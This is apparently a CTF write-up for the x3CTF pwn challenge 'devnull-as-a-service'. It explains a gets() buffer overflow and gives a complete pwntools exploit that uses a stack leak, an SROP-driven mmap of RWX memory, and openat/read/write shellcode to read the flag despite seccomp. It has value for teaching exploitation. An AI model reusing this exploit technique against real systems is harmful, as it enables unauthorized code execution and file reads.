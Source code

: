 ---
title: "[WRITE UP] - devnull-as-a-service"
description: 'Yet another CTF, another writeup!'
image: '../../img/cover_photo_wup_imresizer.png'
date: 2025-01-30
tags: ['2025', 'WriteUp', 'PWN']
authors: ['kdot']
draft: false
---

# Description
> A few months ago, I came across this website. Inspired by it, I decided to recreate the service in C to self-host it.
To avoid any exploitable vulnerabilities, I decided to use a very strict seccomp filter. Even if my code were vulnerable, good luck exploiting it.
PS: You can find the flag at `/home/ctf/flag.txt` on the remote server.

# Challenge Overview
The challenge involves exploiting a buffer overflow in a `non-PIE` binary with a strict `seccomp` filter. The goal is to read the flag from `/home/ctf/flag.txt` using allowed syscalls. The key steps involve leaking a stack address, crafting a `Sigreturn-Oriented Programming (SROP)` chain to create an `RWX` memory region, and executing shellcode that utilizes `openat`, `read`, and `write` syscalls.

# Binary Analysis
- Security Features: `Partial RELRO`, `Stack Canary`, `NX Enabled`, `No PIE`.
- Vulnerability: `gets()` in `dev_null()` causing a `buffer overflow`.
- Seccomp Rules: Blocks dangerous syscalls (e.g., `open`, `execve`) but allows `openat`, `read`, `write`, and `sigreturn`.

# Exploit

Looking back, this article seems to be a shellcode article because it has seccomp and although NX is enabled, we can still execute shellcode through ROP, we can use some syscalls like `mmap`, `mprotect` to grant permissions to a certain memory area. This article is special in that there are no common `gadgets` for us to execute a normal ROP chain, but instead there are `syscalls` and `pop rax`, we can immediately think of using `SROP`.

:::note
`Sigreturn-Oriented Programming (SROP)` is an exploitation technique that abuses the Linux kernel’s signal-handling mechanism. When a process receives a signal (e.g., segmentation fault), the kernel saves the process’s execution context (registers, stack, etc.) onto the stack. After handling the signal, the kernel restores the context using the sigreturn syscall. `SROP` exploits this mechanism by forging a fake signal frame on the stack and triggering sigreturn to hijack control of all registers, effectively allowing arbitrary syscalls or code execution.
:::

So the idea for this:

- Leak Stack Address: Use a ROP chain to leak `__libc_stack_end` to determine stack layout.
- `SROP` for RWX Memory: Use `SROP` to call `mmap` and create an executable memory region.
- Shellcode Execution: Inject shellcode using `openat` to open the flag, `read` it, and `write` to stdout.

## Exploit:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./dev_null', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*dev_null+52
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

'''
[*] '/home/alter/CTFs/x3CTF/devnull-as-a-service/dev_null'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
'''

# Leak __libc_stack_end address
def stage1():

    pl = flat([
        b'A'*16,
        pop_rdi,
        exe.sym.__libc_stack_end,
        exe.sym.puts,
        exe.sym.main,
    ])

    sl(pl)
    rl()
    __libc_stack_end = unpack(p.recv()[:6].ljust(8, b"\x00"))
    slog("__libc_stack_end:", __libc_stack_end)

    return __libc_stack_end

# Padding to __libc_stack_end to prepare for ret2main
def stage2():

    pl = flat([
        b'A'*16,
        pop_rdi,
        stack_address,
        exe.sym.gets,
        exe.sym.main,
      ])

    sl(pl)
    sl(cyclic(40) + p64(exe.sym.main))

# Setup and execute Sigreturn
# void *mmap(void addr[.length], size_t length, int prot, int flags, int fd, off_t offset);
def stage3():

    frame = SigreturnFrame()
    frame.rax = 0x9    # mmap syscall
    frame.rdi = rwx    # addr
    frame.rsi = 0x1000 # size
    frame.rdx = 0x7    # prot (RWX)
    frame.r10 = 0x22   # flags (MAP_ANONYMOUS|MAP_PRIVATE)
    frame.r8 = 0       # fd
    frame.r9 = 0       # offset
    frame.rsp = stack_address + 0x28 # return to main
    frame.rip = syscall

    pl = flat([
        b'A'*16,
        pop_rax,
        0xf,
        syscall
    ])
    pl += bytes(frame)

    sl(pl)

# Inject payload to rwx region
def stage4():

    pl = flat([
        b'A'*16,
        pop_rdi,
        rwx,
        exe.sym.gets,
        exe.sym.main,
    ])

    sc = asm('''nop\n'''*0x10+'''

        xor rax, rax
        mov rax, 0x101
        mov rdi, -1
        lea rsi, [rip + file_path]
        syscall

        mov rdi, rax
        mov rsi, rsp
        mov rdx, 0x50
        mov rax, 0
        syscall

        mov rdx, 0x50
        mov rdi, 1
        mov rsi, rsp
        mov rax, 1
        syscall

        file_path:
            .asciz "/home/ctf/flag.txt"

        ''', arch='amd64')

    sl(pl)
    sl(sc)

# Execute that shellcode
def stage5():

    pl = flat([
        b'A'*16,
        rwx
    ])

    sl(pl)

def exploit():
    global pop_rdi, stack_address, pop_rax, syscall, rwx

    pop_rdi = 0x413795 # pop rdi; ret;
    pop_rax = 0x42193c # pop rax; ret;
    syscall = 0x40bcd6 # syscall; ret;
    rwx = 0x11000
    stack_address = stage1()

    stage2()
    stage3()
    stage4()
    stage5()

    interactive()

if __name__ == '__main__':
    exploit()
```
